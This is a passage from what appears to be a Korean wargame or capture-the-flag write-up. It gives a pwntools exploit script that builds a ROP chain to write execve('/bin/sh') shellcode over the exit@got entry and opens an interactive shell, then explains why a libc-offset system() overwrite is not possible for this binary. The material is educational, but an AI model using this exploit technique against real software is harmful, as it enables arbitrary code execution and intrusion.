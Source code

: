 ```
# ret = r.find_gadget(['ret'])[0]

shellcode = asm(shellcraft.execve("/bin/sh", 0, 0))
# shellcode = asm(shellcraft.sh()) # 이것도 사용 가능

exit_plt = elf.plt['exit']
exit_got = elf.got['exit']

read_plt = elf.plt['read']

# payload += p64(ret)
payload += p64(pop_rdi) + p64(0)
payload += p64(pop_rsi_pop_r15) + p64(exit_got) + p64(0)
payload += p64(pop_rdx) + p64(len(shellcode))
payload += p64(read_plt)

payload += p64(exit_got)

# main의 read
sleep(0.5)
p.send(payload)

# ROP의 read
sleep(0.5)
p.send(shellcode)

p.interactive()
```

## 참고

위 두 방식이 훨씬 편리한 방법이긴 하지만, `rop` 워게임에서처럼 `libc`에 존재하는 심볼간의 오프셋을 통해 `system` 함수의 주소를 찾아서 `exit@got`에 Overwrite 하는 방법도 생각해보았다.

근데 해당 바이너리에는 `write@plt`가 존재하지 않아서, `read_got`에 저장된 값(`libc`의 `read` 함수가 실제로 바이너리에 매핑된 주소)를 구할 수 없기 때문에, `system` 함수의 오프셋도 구할 수 없게 되어 해당 방법을 사용할 수 없다.
